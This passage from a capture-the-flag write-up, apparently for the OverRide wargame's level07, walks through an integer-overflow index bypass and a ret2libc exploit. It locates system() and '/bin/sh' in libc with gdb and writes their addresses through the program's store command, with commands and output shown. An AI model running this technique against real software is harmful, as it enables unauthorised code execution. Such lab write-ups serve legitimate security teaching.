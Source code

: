 ```
(UINT_MAX + 1) / 4 + 114 = 1073741938
(4294967295 + 1) / 4 + 114 = 1073741938
```

Now all we need to do is place our payload in memory by using `store` command of the program in order to call `system` with the argument `"/bin/sh"`. Here's the values of what we know so far:

| Pointer to | Integer value | Input index (what we'll enter) |
|------------|---------------|--------------------------------|
| `system()`   | `4159090384`    | `1073741938`                     |
| `"/bin/sh"`  | `4160264172`    | `116`                            |

Let's find where in memory to find the above items.

```
gdb-peda$ print system
$8 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ find /bin/sh					     # NOTE: this works in peda only
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```

And now we'll convert those memory addresses to integers.

```
level07@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xf7e6aed0
4159090384
>>> 0xf7f897ec
4160264172
```

We now have all the information we need to exploit the program. Here's a quick summary of the values we'll be using:

| Pointer to | Pointer value | Integer value (the input) | Index in buffer (100 `int`s long) | Input index (the input) |
|------------|---------------|---------------|-----------------------------------|--------------------------------|
| system()   | `0xf7e6aed0`  | 4159090384    | 114                               | 1073741938                     |
| "/bin/sh"  | `0xf7f897ec`  | 4160264172    | 116                               | 116                            |

At long last, here's the exploit in action.

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
```